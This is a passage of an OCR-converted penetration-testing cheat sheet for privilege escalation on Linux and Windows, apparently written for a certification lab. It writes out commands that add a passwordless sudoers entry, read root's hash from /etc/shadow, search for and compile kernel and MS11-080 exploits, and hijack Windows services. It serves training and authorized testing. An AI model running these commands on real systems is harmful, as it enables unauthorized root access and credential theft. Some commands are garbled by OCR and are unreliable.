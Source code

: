 - Add users to Root SUDO group with no password requirement

echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD: ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update

- SearchSploit

searchsploit –uncsearchsploit apache 2.2
searchsploit "Linux Kernel"
searchsploit linux 2.6 | grep -i ubuntu | grep local
searchsploit slmail

- Kernel Exploit Suggestions for Kernel Version 3.0.0

./usr/share/linux-exploit-suggester/Linux_Exploit_Suggester.pl -k 3.0.0

- Precompiled Linux Kernel Exploits - ***Super handy if GCC is not installed on the target machine!***

[*https://www.kernel-exploits.com/*](https://www.kernel-exploits.com/)

- Collect root password

cat /etc/shadow |grep root

- Find and display the proof.txt or flag.txt - LOOT! `cat ``find / -name proof.txt -print```

-

## [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='72'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='2249' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/m0chan/pwk-cheatsheet#windows-privilege-escalation)Windows Privilege Escalation

- Windows Privilege Escalation resourcehttp://www.fuzzysecurity.com/tutorials/16.html
- Try the getsystem command using meterpreter - rarely works but is worth a try.`meterpreter > getsystem`
- Metasploit Meterpreter Privilege Escalation Guidehttps://www.offensive-security.com/metasploit-unleashed/privilege-escalation/
- Windows MS11-080 - http://www.exploit-db.com/exploits/18176/

python pyinstaller.py --onefile ms11-080.py
mx11-080.exe -O XP

- Powershell Priv Escalation Toolshttps://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
- Windows Service Configuration Viewer - Check for misconfigurations in services that can lead to privilege escalation. You can replace the executable with your own and have windows execute whatever code you want as the privileged user.
